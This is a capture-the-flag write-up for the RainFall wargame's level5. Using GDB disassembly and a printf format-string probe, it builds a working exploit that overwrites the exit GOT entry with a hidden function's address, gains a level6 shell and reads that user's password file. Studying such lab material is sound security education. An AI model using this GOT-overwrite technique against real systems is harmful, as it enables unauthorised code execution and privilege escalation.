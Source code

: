 ```sh
level5@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level5 level5   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level5 level5  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level5 level5 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
-rw-r--r--+ 1 level5 level5   65 Sep 23  2015 .pass
-rw-r--r--  1 level5 level5  675 Apr  3  2012 .profile
level5@RainFall:~$ ./level5
42
42
level5@RainFall:~$ ./level5 42
42
42
```
There is one excutable file **level3**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
   End of assembler dump.
   (gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave  
   0x08048510 <+12>:    ret    
End of assembler dump.
```
We can see 3 functions ```main(), n(), o()```. ```n()``` function gets standard input by ```fgets()``` and ```printf()``` without formatter. ```o()``` function have ```system()``` call, but its called by anywhere. \
We will be try same things like previous level, but now we have to call function ```o()```.
```sh
level5@RainFall:~$ python -c 'print "BBBB" + " %x" * 10' > /tmp/exploit4
level5@RainFall:~$ cat /tmp/exploit4 | ./level5
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078
level5@RainFall:~$ 
```
Now we can find easliy the input located in 4th of stack, we will replace the address of exit just after ```printf()``` by function ```o()```.
```sh
(gdb) disas n
Dump of assembler code for function n:
...
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
(gdb) x/i 0x080483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
...
```
The start address of function ```o()``` is 0x80484a4, in decimal 134513828.
```
original exit address + o() start address - 4 + %4$n
```
```sh
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit4
level5@RainFall:~$ cat /tmp/exploit4 - | ./level5
...
whoami
level6
cat /home/user/level6/.pass
(hidden)
```
level5 passed !

